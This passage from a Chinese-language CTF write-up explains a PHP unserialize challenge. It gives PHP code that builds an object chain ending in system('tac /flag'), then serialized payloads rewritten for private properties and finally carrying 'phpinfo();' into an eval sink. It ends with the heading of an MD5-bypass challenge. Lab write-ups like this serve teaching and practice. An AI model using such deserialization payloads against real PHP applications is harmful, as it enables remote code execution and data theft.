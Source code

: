 ```php
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
    {
        echo $this->sea->see;
    }
}

$payload = new Nature();
$payload -> sea = new Sea();
$payload -> sea -> animal = new Shark();
$payload -> sea -> animal -> word = new Sink();
$payload -> sea -> animal -> word -> cmd = system("tac /flag");

echo serialize($payload);
```
:::

这样会报错，因为php5版本对反序列化严格区分变量的pulic,private的属性。修改后运行，虽然报错，但可以得到我们期望的`O:6:"Nature":1:{s:3:"sea";O:3:"Sea":1:{s:6:"animal";O:5:"Shark":1:{s:4:"word";O:4:"Sink":1:{s:3:"cmd";s:0:"";}}}}`

我们这里是通过public属性得到payload，与private属性得到的payload有区别，需要稍加修改

参考：

[【php反序列化入门】](https://macchiato.ink/web/web_security/unserialize/)

![7](https://the0n3.top/medias/basectf/7.png)

所以private类型的变量需要修改他们的形式和长度，形式改为：`%00类名%00变量名`,长度为`变量名长度+类名长度+2`

原来，变量word,cmd是private类型的，所以修改他们在payload里的格式

`O:6:"Nature":1:{s:3:"sea";O:3:"Sea":1:{s:6:"animal";O:5:"Shark":1:{s:11:"%00Shark%00word";O:4:"Sink":1:{s:9:"%00Sink%00cmd";s:0:"";}}}}`

最后给变量cmd添加一个值，在eval函数里执行命令

`O:6:"Nature":1:{s:3:"sea";O:3:"Sea":1:{s:6:"animal";O:5:"Shark":1:{s:11:"%00Shark%00word";O:4:"Sink":1:{s:9:"%00Sink%00cmd";s:10:"phpinfo();";}}}}`

可以成功执行phpinfo()函数，拿flag时，把变量值和对应长度改一下

## [Week2] 所以你说你懂 MD5?

考点：`md5相关绕过`

我总结了一些md5绕过，这道题目也够用：[【md5相关绕过】](https://the0n3.top/pages/25c740/)
